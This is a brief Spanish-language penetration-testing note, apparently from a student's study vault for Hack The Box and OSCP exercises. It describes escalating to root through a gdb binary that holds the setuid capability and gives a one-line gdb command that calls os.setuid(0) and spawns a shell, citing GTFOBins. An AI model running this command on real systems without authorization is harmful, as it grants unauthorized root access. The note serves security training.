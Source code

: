 
## DESCRIPTION

Escalada de privilegios usando la siguietne capabilitie:

![[Pasted image 20230518100510.png]]

#### Mas información
* https://gtfobins.github.io/gtfobins/gdb/


## EXPLOITATION

```
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

![[Pasted image 20230518100610.png]]

## MACHINES

* Hack The Box: 
* OSCP: exercises
